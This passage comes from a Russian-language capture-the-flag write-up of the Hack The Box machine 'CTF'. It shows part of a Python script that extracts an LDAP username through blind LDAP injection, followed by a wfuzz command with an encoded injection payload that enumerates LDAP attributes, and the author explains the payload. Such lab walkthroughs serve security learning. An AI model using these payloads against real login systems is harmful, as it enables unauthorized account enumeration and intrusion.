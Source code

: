 ```python

		resp = requests.post(URL, data=data)

		match = re.search(r'<div class="col-sm-10">(.*?)</div>', resp.text, re.DOTALL)
		if match.group(1).strip() == 'Cannot login':
			username += c
			break

		print(f'[*] Username: {username}{c}', end='\r')  # sys.stdout.write(f'\r{username}{c}')
		time.sleep(0.2)

	else:
		done = True

print(f'[+] Username: {username} \n')
```

[![brute-username.gif](/assets/images/htb/machines/ctf/brute-username.gif)](/assets/images/htb/machines/ctf/brute-username.gif)

Есть имя пользователя! ldapuser — кто бы мог подумать... Таким же способом предлагаю сбрутить и другие атрибуты LDAP.

### Дампим остальные атрибуты

Теперь пришло время сказать пару слов о том, что представляет из себя «[атрибут](https://pro-ldap.ru/tr/zytrax/ch2/#attributes)» в терминологии LDAP. Если придерживаться строгих определений, то атрибут — это то, что содержит в себе объектный класс LDAP. Последний является кирпичиком, из которых строятся записи базы данных. Другими словами, атрибутом можно назвать те самые ключи из пар «ключ-значение» (`key1=value1`, ...) из примера выше.

Мы уже видели подсказку в комментарии исходника HTML-страницы `/login.php` касательно некого «существующего атрибута», который содержит строку с токеном из 81-й цифры. Что ж настало время выяснить, какие атрибуты существуют в имеющемся у нас каталоге LDAP. Для этого я буду использовать wfuzz с пейлоадом такого вида.

```
root@kali:~# wfuzz -w attributes.lst --hw 233 -d 'inputUsername=ldapuser%2529%2528FUZZ%253d%252a%2529%2529%2529%2500&inputOTP=0000' 10.10.10.122/login.php
```

Разберем подробнее. Во-первых, откуда был взят словарь `attributes.lst`? Я составил его из [списка](https://pro-ldap.ru/tr/zytrax/ape/#attributes) наиболее часто используемых атрибутов LDAP, помня о том, что в подсказке было уточнение относительно уже существующего атрибута. Значит, они не придумывали ничего своего.

[![attributes-lst.png](/assets/images/htb/machines/ctf/attributes-lst.png)](/assets/images/htb/machines/ctf/attributes-lst.png)
{:.center-image}

Пейлоад `ldapuser%2529%2528FUZZ%253d%252a%2529%2529%2529%2500` — это ничто иное как `ldapuser)(FUZZ=*)))%2500`, где `FUZZ` — это очередной атрибут из составленного мной списка. То есть, я беру, к примеру, атрибут mail и проверяю, что будет содержать ответ на запрос, содержащий пейлоад `ldapuser)(mail=*)))%2500`. Если атрибут существует, то я получу сообщение об ошибке `Cannot login`, так как остальная часть LDAP-запроса корректна. Если атрибута не существует — не получу в ответ ничего, так как запрос попросту окажется неправильным.


[//]: # (2019-08-20)